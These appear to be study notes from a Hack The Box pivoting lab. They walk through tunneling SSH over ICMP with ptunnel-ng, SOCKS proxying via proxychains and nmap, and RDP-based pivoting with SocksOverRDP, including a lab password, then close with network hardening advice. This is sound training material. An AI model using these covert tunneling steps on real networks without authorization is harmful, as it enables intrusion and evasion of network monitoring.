d41y@htb[/htb]$ sed -i '$s/.*/LDFLAGS=-static "${NEW_WD}\/configure" --enable-static $@ \&\& make clean \&\& make -j${BUILDJOBS:-4} all/' autogen.sh
d41y@htb[/htb]$ ./autogen.sh
Transferring:
d41y@htb[/htb]$ scp -r ptunnel-ng ubuntu@10.129.202.64:~/
With ptunnel-ng on the target host, you can start the server-side of the ICMP tunnel using the command directly below.
ubuntu@WEB01:~/ptunnel-ng/src$ sudo ./ptunnel-ng -r10.129.202.64 -R22
[sudo] password for ubuntu:
./ptunnel-ng: /lib/x86_64-linux-gnu/libselinux.so.1: no version information available (required by ./ptunnel-ng)
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig, <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
The IP address following -r should be the IP of the jump-box you want ptunnel-ng to accept connections on. In this case, whatever IP is reachable from your attack host would be what you would use. You would benefit from using this same thinking & consideration during an actual engagement.
Back on the attack host, you can attempt to connect to the ptunnel-ng server but ensure this happens through local port 2222. Connecting through local port 2222 allows you to send traffic through the ICMP tunnel.
d41y@htb[/htb]$ sudo ./ptunnel-ng -p10.129.202.64 -l2222 -r10.129.202.64 -R22
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig, <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.
With the ptunnel-ng ICMP tunnel successfully established, you can attempt to connect to the target using SSH through local port 2222.
d41y@htb[/htb]$ ssh -p2222 -lubuntu 127.0.0.1
ubuntu@127.0.0.1's password:
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)
* Documentation: https://help.ubuntu.com
* Management: https://landscape.canonical.com
* Support: https://ubuntu.com/advantage
System information as of Wed 11 May 2022 03:10:15 PM UTC
System load: 0.0
Usage of /: 39.6% of 13.72GB
Memory usage: 37%
Swap usage: 0%
Processes: 183
Users logged in: 1
IPv4 address for ens192: 10.129.202.64
IPv6 address for ens192: dead:beef::250:56ff:feb9:52eb
IPv4 address for ens224: 172.16.5.129
* Super-optimized for small spaces - read how we shrank the memory
footprint of MicroK8s to make it the smallest full K8s around.
https://ubuntu.com/blog/microk8s-memory-optimisation
144 updates can be applied immediately.
97 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable
Last login: Wed May 11 14:53:22 2022 from 10.10.14.18
ubuntu@WEB01:~$
If configured correctly, you will be able to enter credentials and have an SSH session all through the ICMP tunnel.
On the client & server side of the connection, you will notice ptunnel-ng gives you session logs and traffic statistics associated with the traffic that passes through the ICMP tunnel. This is one way you can confirm that your traffic is passing from client to server utilizing ICMP.
inf]: Incoming tunnel request from 10.10.14.18.
[inf]: Starting new session to 10.129.202.64:22 with ID 20199
[inf]: Received session close from remote peer.
[inf]:
Session statistics:
[inf]: I/O: 0.00/ 0.00 mb ICMP I/O/R: 248/ 22/ 0 Loss: 0.0%
[inf]:
You may also use this tunnel and SSH to perform dynamic port forwarding to allow you to use proxychains in various ways.
d41y@htb[/htb]$ ssh -D 9050 -p2222 -lubuntu 127.0.0.1
ubuntu@127.0.0.1's password:
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)
<snip>
You could use proxychains with Nmap to scan targets on the internal network. Based on your discoveries, you can attempt to connect to the target.
d41y@htb[/htb]$ proxychains nmap -sV -sT 172.16.5.19 -p3389
ProxyChains-3.1 (http://proxychains.sf.net)
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-11 11:10 EDT
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19:80-<><>-OK
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19:3389-<><>-OK
|S-chain|-<>-127.0.0.1:9050-<><>-172.16.5.19:3389-<><>-OK
Nmap scan report for 172.16.5.19
Host is up (0.12s latency).
PORT STATE SERVICE VERSION
3389/tcp open ms-wbt-server Microsoft Terminal Services
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.78 seconds
Network Traffic Analysis Considerations
It is important that you confirm the tools you are using are performing as advertised and that you have set up & are operating them properly. In the case of tunneling traffic through different protocols like in this section, you can benefit from analyzing the traffic you generate with a packet analyzer like Wireshark.
Double Pivots
RDP and SOCKS Tunneling with SocksOverRDP
There are often times during an assessment when you may be limited to a Windows network and may not be able to use SSH for pivoting. You would have to use tools available for Windows OS in these cases. SocksOverRDP is an example of a tool that uses Dynamic Virtual Channels (DVC) from the Remote Desktop Service feature of Windwos. DVC is responsible for tunneling packets over the RDP connection. Some examples of usage of this feature would be clipboard data transfer and audio sharing. However, this feature can also be used to tunnel arbitrary packets over the network. You can use SocksOverRDP to tunnel your custom packets and then proxy through it.
You can start by downloading the appropriate binaries for your attack host to perform this attack. Having binaries on your attack host will allow you to transfer them to each target when needed. You will need:
You can then connect to the target using xfreerdp and copy the SocksOverRDPx64.zip file to the target. From the Windows target, you will then need to load the SocksOverRDP.dll using regsvr32.exe.
C:\Users\htb-student\Desktop\SocksOverRDP-x64> regsvr32.exe SocksOverRDP-Plugin.dll
Now you can connect to 172.16.5.19 over RDP using mstsc.exe, and you should receive a prompt that the SocksOverRDP plugin is enabled, and it will listen on 127.0.0.1:1080. You can use the credentials victor:pass@123 to connect.
You will need to transfer SocksOverRDPx64.zip or just the SocksOverRDP-Server.exe to 172.16.5.19. You can then start SocksOverRDP-Server.exe with Admin privileges.
When you go back to your foothold target and check with Netstat, you should see your SOCKS listener started on 127.0.0.1:1080.
C:\Users\htb-student\Desktop\SocksOverRDP-x64> netstat -antb | findstr 1080
TCP 127.0.0.1:1080 0.0.0.0:0 LISTENING
After starting your listener, you can transfer Proxifier portable to the Windows 10 target, and configure it to forward all your packets to 127.0.0.1:1080. Proxifier will route traffic through the given host and port
With Proxifier configured and running, you can start mstsc.exe, and it will use Proxifier to pivot all your traffic via 127.0.0.1:1080, which will tunnel it over RDP to 172.16.5.19, which will then route it to 172.16.5.155 using SocksOverRDP-server.exe.
RDP Performance Considerations
When interacting with your RDP sessions on an engagement, you may find yourself contending with slow performance in a given session, especially if you are managing multiple RDP sessions simultaneously. If this is the case, you can access the Experience tab in mstsc.exe and set Performance to Modem.
Detection & Prevention
Setting a Baseline
Understanding everything present and happening in a network environment is vital. As defenders, you should be able to quickly identify and investigate any new hosts that appear in your network, any new tools or applications that get installed on hosts outside of your application catalog, and any new or unique network traffic generated. An audit of everything listed below should be done anually, if not every few months, to ensure your records are up to date. Among some of the considerations you can start with are:
- DNS records, network device backups, and DHCP configs
- Full and current application inventory
- A list of all enterprise hosts and their location
- Users who have elevated permissions
- A list of any dual-homed hosts
- Keeping a visual network diagram of your environment
Along with tracking the items above, keeping a visual diagram of your environment up-to-date can be highly effective when troubleshooting issues or responding to an incident. Netbrain is an excellent example of one tool that can provide this functionality and interactive access to all appliances in the diagram. If you want a way to document your network environment visually, you can use a free tool like diagram.net. Lastly, for your baseline, understanding what assets are critical to the operation of your organization and monitoring those assets is a must.
People, Processes, and Technology
Network hardening can be organized into the categories People, Process, and Technology. These hardening measures will encompass the hardware, software, and humand aspects of any network.
People
In even the most hardenend environment, users are often considered the weakest link. Enforcing security best practices for standard users and administrators will prevent "easy wins" for pentesters and malicious attackers. You should also strive to keep yourself and the users you serve educated and aware of threats. The measures below are a great way to begin the process of securing the human element of any enterprise environment.
BYOD and Other Concerns
Bring your own device (BYOD) is becoming prevalent in today's workforce. With the increased acceptance of remote work and hybrid work arrangements, more people are using their personal devices to perform work-related tasks. This presents unique risks to organizations because their employees may be connecting to networks and shared resources owned by the organization. The organization has a limited ability to administer and secure a personally owned device such as a laptop or smartphone, leaving the responsibility of securing the device largely with the owner. If the device owner follows poor security practices, they not only put themselves at risk of compromise, but now they can also extend these same risks to their employers.
Using multi-factor authentication are all excellent factors to consider when implementing authentication mechanisms. Implementing two or more factors for authentication is a great way to make it more difficult for an attacker to gain full access to an account should a user's password or hash get compromised.
Along with ensuring your users cannot cause harm, you should consider your policies and procedures for domain access and control. Larger organizations should also consider building a Security Operation Center team or use a SOC as a Service to constantly monitor what is happening within the IT environment 24/7. Modern defensive technologies have come a long way and can help with many different defensive tactics, but you need human operators to ensure they function as they are supposed to. Incident response is something where you can't yet completely automate out the human element. So having a proper incident response plan ready is essential to be prepared for a breach.
Processes
Maintaining and enforcing policies and procedures can significantly impact an organization's overall security posture. It is near impossible to hold an organization's employees accountable without defined policies. It makes it challenging to respond to an incident without defined and practiced procedures such as a disaster recovery plan. The items below can help to start defining an organization's processes, policies, and procedures relating to securing their users & network environment.
- Proper policies and procedures for asset monitoring and management
- Host audits, the use of asset tags, and periodic asset inventories can help ensure hosts are not lost
- Access control policies, multi-factor authentication mechanisms
- Processes for provisioning and decommissioning hosts
- Change management processes to formally document who did what and when they did it
Technology
Periodically check the network for legacy misconfigs and new & emerging threats. As changes are made to an environment, ensure that common misconfigs are not introduced while paying attention to any vulnerabilities introduced by tools or applications utilized in the environment. If possible, attempt to patch or mitigate those risks with the understanding that the CIA triad is a balancing act, and the acceptance of the risk a vulnerability presents may be the best option for your environment.